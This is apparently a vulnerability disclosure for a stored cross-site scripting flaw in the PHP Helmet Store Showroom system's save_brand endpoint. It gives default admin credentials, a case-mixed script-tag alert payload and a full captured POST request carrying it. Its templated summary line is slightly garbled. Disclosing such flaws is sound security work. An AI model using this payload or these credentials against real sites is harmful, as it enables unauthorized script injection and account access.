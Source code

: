# Helmet Store Showroom Site System - XSS

A vulnerability classified as problematic was found in Helmet Store Showroom Site System. This vulnerability affects $fullname code. The manipulation of the argument /classes/Master.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/classes/Master.php/save_brand

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/classes/Master.php/save_brand has XSS

> Payload: <sCrIpT>alert(1)</ScRiPt>

XSS because $save_brand can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/26.png)

## Payload

```s
POST /CVE/hss/classes/Master.php?f=save_brand HTTP/1.1
Host: localhost
Content-Length: 491
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryakTBMvZDfWb0TsvB
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/CVE/hss/admin/?page=brands
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Connection: close

------WebKitFormBoundaryakTBMvZDfWb0TsvB
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryakTBMvZDfWb0TsvB
Content-Disposition: form-data; name="name"

Arai<sCrIpT>alert(1)</ScRiPt>
------WebKitFormBoundaryakTBMvZDfWb0TsvB
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryakTBMvZDfWb0TsvB
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryakTBMvZDfWb0TsvB--

```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/23.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/24.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/25.png)
